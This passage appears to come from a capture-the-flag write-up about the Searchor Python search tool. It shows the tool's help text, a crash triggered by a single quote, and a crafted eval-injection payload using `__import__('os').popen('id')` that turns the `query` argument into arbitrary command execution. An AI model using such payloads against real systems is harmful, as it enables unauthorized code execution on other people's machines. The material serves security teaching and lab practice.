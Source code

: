 

    (venv) oxdf@hacky$ searchor search --help
    Usage: searchor search [OPTIONS] ENGINE QUERY

    Options:
      -o, --open  Opens your web browser to the generated link address
      -c, --copy  Copies the generated link address to your clipboard
      --help      Show this message and exit.



#### Local POC

I'm trying to inject into this code, where I control `engine` and
`query`:



    url = eval(
        f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
    )



If I target `engine`, it's likely to error out, and I won't get a result
back, so I'll focus on `query`. If I give it a single quote, it crashes:



    (venv) oxdf@hacky$ searchor search GitHub 0xdf
    https://www.github.com/search?q=0xdf
    (venv) oxdf@hacky$ searchor search GitHub "0xdf'"
    Traceback (most recent call last):
      File "/tmp/venv/bin/searchor", line 8, in <module>
        sys.exit(cli())
                 ^^^^^
    ...[snip]...
      File "/tmp/venv/lib/python3.11/site-packages/searchor/main.py", line 32, in search
        url = eval(
              ^^^^^
      File "<string>", line 1
        Engine.GitHub.search('0xdf'', copy_url=False, open_web=False)
                                   ^
    SyntaxError: unterminated string literal (detected at line 1)



I need to make that syntax correct. A bit of trial and error gets me to
something like:



    ' + __import__('os').popen('id').read() + '



If I submit that as the `search`, that the code will look like:



    f"Engine.GitHub.search('' + __import__('os').popen('id').read() + '', copy_url={copy}, open_web={open})"
